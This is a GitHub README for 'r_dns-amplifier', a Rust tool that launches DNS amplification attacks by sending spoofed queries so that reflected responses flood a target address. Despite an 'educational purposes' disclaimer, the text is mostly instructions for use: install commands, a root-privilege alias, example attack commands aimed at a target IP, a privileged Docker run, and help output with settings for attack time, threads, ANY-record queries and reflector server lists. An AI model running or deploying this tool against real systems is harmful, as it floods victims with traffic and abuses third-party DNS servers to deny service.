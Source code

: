 # r_dns-amplifier

![license](https://img.shields.io/badge/license-MIT-brightgreen.svg)
![version](https://img.shields.io/badge/version-2.6.0-lightgrey.svg)

`r_dns-amplifier` is a Rust tool for educational purposes to demonstrate DNS amplification attacks. It sends spoofed DNS queries to a target server, which then responds with a large volume of data to the specified address, amplifying the traffic.

**DISCLAIMER:** DNS amplification attacks are illegal and unethical. Use this tool responsibly and only for educational purposes. The author disclaims all responsibility for misuse.

## Requirements

- Rust (tested with version 1.81.0)
- Additional libraries: `pkg-config`, `libssl-dev`

## Install

You can install the script globally using the cargo package manager by running:

```
cargo install --git https://github.com/cavoq/r_dns-amplifier.git --branch master
```

You may also need some additional libs:

```
sudo apt-get install pkg-config libssl-dev
```

Because this script uses raw sockets it requires root privileges, you need to set an alias and run the script like this if you don't want
to specify the full path:

```
echo "alias sudo-rdns='sudo env \"PATH=$PATH\" r_dns-amplifier'" >> ~/.bashrc && source ~/.bashrc
```

**Note: Instead of *r_dns-amplifier* you call *sudo-rdns***
## Usage

Example usage with global install:
```
sudo-rdns 192.168.2.1 --port 53 -r ANY -d google.com
```

You can also run this script by building it directly after cloning:
```
cargo build --release
```

*see help:*

```
Usage: r_dns-amplifier [OPTIONS] <TARGET>

Arguments:
  <TARGET>  IPv4 address of the target

Options:
  -p, --port <PORT>                  Port of the target [default: 53]
  -r, --record-type <RECORD_TYPE>    DNS record type to use [A, MX, NS, ANY] [default: ANY]
  -s, --server-list <SERVER_LIST>    List of DNS servers to use
  -t, --time <TIME>                  Time of the attack in seconds
  -d, --domain <DOMAIN>              Domain to resolve [default: google.com]
  -m, --threads <THREADS>            Thread count [default: 10]
  -n, --dns-resolver <DNS_RESOLVER>  DNS resolver to use
  -h, --help                         Print help
  -V, --version                      Print version
```

## Docker

You can also run this script in a Docker container, the `--privileged` flag is required to use raw sockets in the container.

```
docker build -t r_dns-amplifier .
docker run --rm --privileged r_dns-amplifier 192.168.2.1 --port 53 -r ANY -d google.com
```
